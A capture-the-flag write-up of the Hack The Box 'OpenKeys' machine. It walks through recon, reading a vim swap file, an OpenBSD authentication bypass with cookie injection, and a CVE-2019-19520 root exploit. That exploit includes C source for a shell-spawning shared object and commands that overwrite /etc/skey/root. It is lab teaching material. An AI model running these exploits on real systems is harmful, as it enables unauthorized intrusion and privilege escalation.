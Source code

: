 ```yaml
---
image: /assets/avatar/assets/openkeys.png
title: OpenKeys Writeup
author: Valerio Casalino
style: fill
tags: [Writeups, Hackthebox]
description: Writeup for OpenKeys (Hackthebox)
---
```


# OpenKeys

As always... `nmap` that thing:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.199 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -p $ports -sC -sV 10.10.10.199
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
...
```

On port 80, we find a login page and no more info:

![image-20201105213128889](/assets/openkeys/image-20201105213128889.png)

So, we can use `gobuster`, or whatever alternative, to find some not indexed folder:

```bash
gobuster dir -w /usr/share/wordlists/discovery/directory-list-2.3-medium.txt -u http://10.10.10.199
```

![image-20201105213056896](/assets/openkeys/image-20201105213056896.png)

And we found `/includes`, which contains 2 files `auth.php` and `auth.php.swp`, which is a `vim` swap file, and, most importantly, readable! Since it is a binary file which showing the last changes made on a file, we can read them all with:

```bash
>>> vim -r auth.php.swp
...
$cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
...
$_SESSION["username"] = $_REQUEST['username'];
...
>>> strings auth.php.swp | head -n 2
b0VIM 8.1
jennifer
```

So, downloading that file, we can investigate on that:

```bash
file check_auth
...
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
...
```

It is a shared object for OpenBSD, and that means that it could be vulnerable to [an authentication bypass](https://securityaffairs.co/wordpress/94755/security/openbsd-security-flaws.html), and fortunately it is! The only thing to do it's to authenticate with `-schallenge:password` through `burp`:

![image-20201105220647715](/assets/openkeys/image-20201105220647715.png)

This means that the authentication worked! But we don't get any ssh key because no user is specified... The user name found in the `.swp` file was `jennifer`, so we can add `;username=jennifer` to the `PHPSESSID` to make `auth.php` parse it.

```
Cookie: PHPSESSID=...;username=jennifer
```

Copy the ssh key and access with user! Now, let's investigate on how to get `root`. Let's check the OpenBSD version:

```bash
uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

On the openBSD website, there is a [list of vulnerabilities](https://www.openbsd.org/errata66.html) for this version, and the [CVE-2019-19520](https://nvd.nist.gov/vuln/detail/CVE-2019-19520) worked as intended! We need to compile this file on the victim machine:

```c
// swrast_dri.c
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>
static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

This will change the `RUID`, `EUID` and `GUID` to 0, so `root`, when called. After we compile the file:

```bash
cc -fpic -shared -s -o swrast_dri.so swrast_dri.c && rm -rf swrast_dri.c
```

We need to set the `LIBGL_DRIVERS_PATH=.` to make `xlock` use our `swarst_dri.so`, instead of the real one. To do so, we just need to run these simple commands:

```bash
env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
echo id -gn | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display 
# Your password is: EGG LARD GROW HOG DRAG LAIN
echo "rm -rf /etc/skey/root ; echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root ; chmod 0600 /etc/skey/root" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66 
env -i TERM=vt220 su -l -a skey
```

![image-20201106002129492](/assets/openkeys/image-20201106002129492.png)

..profit!
